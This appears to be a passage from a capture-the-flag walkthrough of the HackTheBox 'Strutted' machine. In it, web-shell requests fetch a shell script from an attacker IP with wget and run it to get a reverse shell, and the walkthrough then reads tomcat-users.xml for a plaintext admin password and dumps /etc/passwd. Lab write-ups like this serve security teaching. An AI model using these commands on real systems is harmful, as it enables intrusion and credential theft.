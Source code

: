 Then let's upload the shell script and run it
```
http://strutted.htb/shell.jsp?action=cmd&cmd=wget+http://10.10.14.5/shell.sh+-o+/tmp/shell.sh

http://strutted.htb/shell.jsp?action=cmd&cmd=chmod+777+/tmp/shell.sh

http://strutted.htb/shell.jsp?action=cmd&cmd=ls+-l+/tmp
total 1052
drwxr-x--- 2 tomcat tomcat    4096 Jul 24 04:20 hsperfdata_tomcat
-rwxrwxrwx 1 tomcat tomcat     253 Jul 24 05:43 shell.sh
-rwxr----- 1 tomcat tomcat 1068672 Jul 24 04:38 sqlite-3.47.1.0-ec05ed08-bea3-42d3-9ef7-abc54923551c-libsqlitejdbc.so
-rw-r----- 1 tomcat tomcat       0 Jul 24 04:38 sqlite-3.47.1.0-ec05ed08-bea3-42d3-9ef7-abc54923551c-libsqlitejdbc.so.lck

http://strutted.htb/shell.jsp?action=cmd&cmd=bash+/tmp/shell.sh
```
Finally we can get the reverse shell as `tomcat`

# shell as james
By enumerate the file system, we can find `tomcat-users.xml` from `/etc/tomcat9/`
```
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
```
We can get the credit of admin `IT14d6SSP81k`

Let's check the `/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
```